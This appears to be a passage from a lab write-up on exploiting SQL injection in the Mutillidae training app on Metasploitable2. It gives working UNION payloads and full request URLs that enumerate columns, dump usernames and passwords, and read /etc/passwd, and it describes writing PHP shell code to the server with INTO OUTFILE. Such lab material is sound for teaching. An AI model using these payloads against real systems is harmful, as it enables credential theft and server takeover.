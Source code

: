
The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/100a54ff-855e-413d-b960-ea4fe462e51c)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/03bf0f12-bbd9-4736-8313-209121b6f4f0)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/f047dea8-00cf-465e-8f60-07b54d73ca49)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/sreekarsh/sqlinjection/assets/139841918/1e47a065-d222-4849-84eb-c2a50855f17e)


the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
